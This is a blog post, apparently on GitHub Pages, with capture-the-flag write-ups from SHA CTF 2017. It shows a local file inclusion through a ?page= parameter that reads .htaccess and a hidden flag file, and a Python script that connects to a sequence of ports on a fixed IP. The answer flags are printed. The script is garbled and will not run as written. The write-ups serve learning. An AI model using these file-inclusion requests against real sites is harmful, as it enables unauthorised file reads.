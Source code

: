 ```yaml
---
layout: post
title:  ShaCTF  2017 Challenges  [Web 100pts , Binary 100pts , Network 100pts]
---
```


<h3>[Web 100pts] </h3>
<p>we given this target : </p>

http://bonappetit.stillhackinganyway.nl/

<p>after some browsing we Got this parametre is effected by Vulnerability LFI </p>

http://bonappetit.stillhackinganyway.nl/?page=

<p> from source code : <!-- TODO: Check apache access and error log for errors -->  </p>  

http://bonappetit.stillhackinganyway.nl/?page=.htaccess

<p> <FilesMatch "suP3r_S3kr1t_Fl4G"> </p>  

http://bonappetit.stillhackinganyway.nl/?page=suP3r_S3kr1t_Fl4G
<p>
the flag : flag{82d8173445ea865974fc0569c5c7cf7f}
</p>

<hr>
<p>
The challenge name and description and the servers’ response ,
</p>
<p> by using a script :</p>

```
#!/usr/bin/python 
import socket 
plist = [88, 156, 983, 1287, 8743, 5622, 9123]
host = '34.249.81.124'
data = "" 
for p in plist: 
print("Attempting to connect to %s on port %s" % (host, p)) 
try: s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.settimeout(1.0) s.connect((host, p)) 
data += s.recv(1024) 
data += s.recv(1024) 
data += s.recv(1024) 
s.close() 
except Exception as e: continue print data
```
<p>
Attempting to connect to 34.249.81.124 on port 88
</p><p>
Attempting to connect to 34.249.81.124 on port 156
</p><p>
Attempting to connect to 34.249.81.124 on port 983
</p><p>
Attempting to connect to 34.249.81.124 on port 1287
</p><p>
Attempting to connect to 34.249.81.124 on port 8743
</p><p>
Attempting to connect to 34.249.81.124 on port 5622
</p><p>
Attempting to connect to 34.249.81.124 on port 9123
</p><p>
flag{6283a3856ce4766d88c475668837184b}

</p>

<p>
 This Video include write ups of the 3 challenges : web , Binary , Network
 </p>
<iframe width="560" height="315" src="https://www.youtube.com/embed/WDbLoBYLtQE" frameborder="0" allow="autoplay; encrypted-media" allowfullscreen></iframe>



<p>#0v3n_Sh3ll ❤</p>

